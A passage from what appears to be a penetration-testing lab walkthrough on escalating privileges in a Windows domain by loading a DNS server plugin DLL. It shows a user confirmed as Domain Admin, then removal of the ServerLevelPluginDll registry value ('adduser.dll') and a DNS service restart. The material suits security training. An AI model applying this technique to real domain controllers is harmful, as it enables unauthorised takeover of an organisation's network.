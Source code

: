 11) Confirming Group Membership

```
net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

## Cleaning Up

Confirming Registry Key Added

```
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters
    GlobalQueryBlockList    REG_MULTI_SZ    wpad\0isatap
    EnableGlobalQueryBlockList    REG_DWORD    0x1
    PreviousLocalHostname    REG_SZ    WINLPE-DC01.INLANEFREIGHT.LOCAL
    Forwarders    REG_MULTI_SZ    1.1.1.1\08.8.8.8
    ForwardingTimeout    REG_DWORD    0x3
    IsSlave    REG_DWORD    0x0
    BootMethod    REG_DWORD    0x3
    AdminConfigured    REG_DWORD    0x1
    ServerLevelPluginDll    REG_SZ    adduser.dll
```

Deleting Registry Key

```
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll

Delete the registry value ServerLevelPluginDll (Yes/No)? Y
The operation completed successfully.
```

Starting the DNS Service Again

```
sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4984
        FLAGS              :
```
